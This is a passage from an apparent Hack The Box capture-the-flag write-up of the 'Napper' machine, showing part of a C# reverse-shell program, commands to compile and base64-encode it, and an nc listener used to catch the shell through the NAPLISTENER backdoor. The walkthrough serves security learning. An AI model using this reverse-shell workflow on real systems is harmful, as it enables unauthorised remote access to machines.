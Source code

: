 ```c
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

```bash
apt install gnupg ca-certificates           # Installed!!
apt update
apt install mono-complete

chmod +x ConnectBack.cs
mcs -o:ConnectBack.exe ConnectBack.cs
# 1 Warning!

file ConnectBack.exe
# :)

base64 -w 0 ConnectBack.exe; echo
rlwrap nc -nlvp 443

#   --> Burpsuite (URL Encode special characters!) --> Send                            :( ???
```

<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_025.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_026.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_027.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/napper_writeup/Napper_028.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I look at the article shared in the post on the **internal.napper.htb** website, **[“NAPLISTENER: more bad dreams from developers of SIESTAGRAPH”](https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph){:target="_blank"}**, I can understand what the problem is. The first thing is that the **Malware** invokes a **“.Run”** class, which does not match the one in my script, and I am going to change the **Namespace** name to match the script name. There is another **C#** [script on Github to get a Reverse Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc){:target="_blank"}, but I am going to use **[Reverse Shell Generator](https://www.revshells.com/){:target="_blank"}** to create a custom script and after modifying it, I compile it with `mcs` and encode it again in **Base64**. I open a port with `nc` and send the request with **BurpSuite**, now I succeed and I could already access the machine, unfortunately I forgot to use some `rlwrap` (**-c**, **-A**, **-r**) parameters to have a better user experience in the console. Now I can know under which user I am getting the session, as well as the **IP** of the machine (I am on the victim machine) and access the first flag to corroborate on the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform the first step, which is to compromise the box, now it's time to escalate privileges.
